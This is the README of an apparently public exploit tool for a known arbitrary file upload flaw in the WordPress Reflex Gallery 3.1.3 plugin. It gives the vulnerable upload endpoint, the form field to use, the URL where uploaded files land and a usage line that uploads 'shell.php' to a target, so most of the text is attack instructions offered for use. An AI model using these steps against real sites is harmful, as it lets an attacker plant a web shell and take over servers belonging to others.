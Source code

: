 - Wordpress Plugin Reflex Gallery Arbitrary File Upload / INURL - BRASIL

```
  # AUTOR:        googleINURL
  # Blog:         http://blog.inurl.com.br
  # Twitter:      https://twitter.com/googleinurl
  # Fanpage:      https://fb.com/InurlBrasil
  # Pastebin      http://pastebin.com/u/Googleinurl
  # GIT:          https://github.com/googleinurl
  # PSS:          http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:      http://youtube.com/c/INURLBrasil
  # PLUS:         http://google.com/+INURLBrasil
```

-   Vulnerability Description
------
WordPress Reflex Gallery plugin version 3.1.3 suffers from a remote shell upload vulnerability.

-   Tool Description
------
The script makes file upload without permission

-   FORM HTML
------
```
<form method = "POST" action = "" enctype = "multipart/form-data" >
<input type = "file" name = "qqfile"><br>
<input type = "submit" name = "Submit" value = "inurl">
</form >
```

-   REQUEST POST SEND
------
```
array('qqfile' => "@_YOU_FILE")
```

-   URL REQUEST SEND
------
```
http://{target}/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year=2015&Month=03
```

-   URL FILE ACCESS
------
```
http://{target}/wp-content/uploads/2015/03/_YOU_FILE
```

-   EXECUTE EXPLOIT
------
```
Demo: php xpl.php {target} {file}
Ex:   php xpl.php http://target.com shell.php
```

-   OUTPUT VULN
------
filename: Exploit_AFU.txt

- REFERENCE
------
http://packetstormsecurity.com/files/130845/WordPress-Reflex-Gallery-3.1.3-Shell-Upload.html
